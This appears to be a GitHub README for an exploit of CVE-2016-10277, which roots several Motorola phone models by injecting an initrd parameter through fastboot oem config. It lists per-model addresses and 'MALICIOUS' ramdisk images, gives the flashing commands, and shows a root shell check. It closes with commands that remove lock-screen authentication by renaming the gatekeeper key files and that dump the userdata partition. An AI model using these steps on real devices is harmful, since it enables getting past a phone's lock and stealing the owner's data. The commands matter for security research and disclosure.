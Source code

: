 # Exploiting CVE-2016-10277
More information at: https://alephsecurity.com/2017/06/07/initroot-moto/

If you just want to check if your device is vulnerable, 
it might be quicker if you just flash stock ramdisk (without any modifications). 
If it's your case, just look for ``initroot-*-STOCK*.cpio.gz``.

## Motorola XT-1033
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1033-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1033-p64-MALICIOUS.cpio.gz

## Motorola XT-1040
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1040-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1040-p64-MALICIOUS.cpio.gz

## Motorola XT-1068
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1068-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1068-p64-MALICIOUS.cpio.gz

## Motorola XT-1069
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1069-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1069-p64-MALICIOUS.cpio.gz

## Motorola XT-1078
- Scratch Address: 0x11000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1078-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1078-p64-MALICIOUS.cpio.gz

## Motorola XT-1514
- Scratch Address: 0x90000000
- Padding: 64MB
- Stockrom padded ramdisk: initroot-xt1514-p64-STOCK.cpio.gz
- Stockrom patched and padded ramdisk: initroot-xt1514-p64-MALICIOUS.cpio.gz



## Running and cheking root access: 
  - Flashing and solving bootloops: 
  
        git clone https://github.com/leosol/initroot.git
        cd xt1040 (or any other folder)
        use ./run-malicious.sh, run-stockramfs.sh and solve-bootloop.sh (if you have any bootloop)
        Or use the following commands:
		fastboot flash aleph $FILE_NAME
		fastboot oem config fsg-id "a initrd=SCRATCH+PAD,LENGTH"
		fastboot continue
		#use the following to solve bootloops
		fastboot oem config fsg-id ""

  - Checking root privileges:   
  
        root@debian-vaio:~/motoramfs/xt1040# adb devices
        List of devices attached
        * daemon not running. starting it now on port 5037 *
        * daemon started successfully *
        T0092020C5	device

        root@debian-vaio:~/motoramfs/xt1040# adb shell
        root@peregrine:/ # getenforce
        >Permissive

  - What can I do with root?   

        #remove authentication as pointed out by @kraftdenker (tested on xt1068)
        mv /data/system/gatekeeper.password.key /data/system/_gatekeeper.password.key
        mv /data/system/gatekeeper.pattern.key /data/system/_gatekeeper.pattern.key

        #dump your data
        adb pull /dev/block/platform/msm_sdcc.1/by-name/userdata

        #or make it permanent


